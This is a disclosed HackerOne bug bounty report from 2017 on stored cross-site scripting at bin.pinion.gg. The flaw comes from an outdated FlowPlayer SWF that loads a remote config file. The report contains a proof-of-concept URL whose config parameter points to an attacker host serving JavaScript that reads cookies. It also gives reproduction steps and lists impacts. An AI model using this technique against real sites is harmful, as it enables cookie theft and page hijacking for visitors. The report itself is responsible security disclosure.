 # Persistent XSS found on bin.pinion.gg due to outdated FlowPlayer SWF file with Remote File Inclusion vulnerability.

## Report Details
- **Report ID**: 254269
- **URL**: https://hackerone.com/reports/254269
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-07-28T13:50:32.637Z
- **Disclosed**: 2017-10-05T21:10:12.774Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: unikrn

## Vulnerability Information
##Description
Hi. Today i looked to some outscope subdomains *.pinion.gg for recon purposes.
I discovered an interesting file on http://templ4d2.pinion.gg/motd2.manifest with next content:
```
CACHE MANIFEST
# 2014-07-07
CACHE:
http://bin.pinion.gg/bin/companions.min.js
http://bin.pinion.gg/bin/flowplayer.commercial-3.2.15.swf
http://vox-static.liverail.com/crossdomain.xml
http://cdn-static.liverail.com/crossdomain.xml
http://bs.serving-sys.com/crossdomain.xml
http://ad-apac.doubleclick.net/crossdomain.xml
http://ads.intergi.com/crossdomain.xml
http://u-ads.adap.tv/crossdomain.xml
http://imasdk.googleapis.com/js/sdkloader/ima3.js
http://www.googletagservices.com/tag/js/gpt.js
https://www.google-analytics.com/ga.js
http://partner.googleadservices.com/gpt/pubads_impl_90.js
NETWORK:
*
```

One string attracted my attention - http://bin.pinion.gg/bin/flowplayer.commercial-3.2.15.swf
I submitted previously some vulnerabilities connected with this file to other programs, so easily determined that it is an outdated version of FlowPlayer (https://github.com/flowplayer/), vulnerable to XSS through remote file inclusion.

##POC
http://bin.pinion.gg/bin/flowplayer.commercial-3.2.15.swf?config=http://████████/test.js
Just visit this link. Player will load my remote .js file from the my host, and display few popups with document.cookie and document.domain payloads.

##Impact
The vulnerable file is hosted on out-scope subdomain, so i thinked, how it can affect security of main domains.
1) Using bin.pinion.gg deface. Because attacker can execute any JS, he can deface the page by arbitrary content
2) Using Open Redirect through `window.location` js payload.
3) Using setting cookie cross-domain. In this case the attacker can set arbitrary cookies to the pinion.gg or cp-ng.pinion.gg.
4) If this file is used in some instance to display some content, ads, etc. - then the instance is vulnerable to XSS.

##Reproduction steps
You just need to place the malicious file to the remote host, like in this example:
http://████/test.js
and append the url to the
```
http://bin.pinion.gg/bin/flowplayer.commercial-3.2.15.swf?config=
```
as parameter.

##Suggested fix
I recommend you to update FlowPlayer to the latest version, or remove if not used.

## Attachments
No attachments
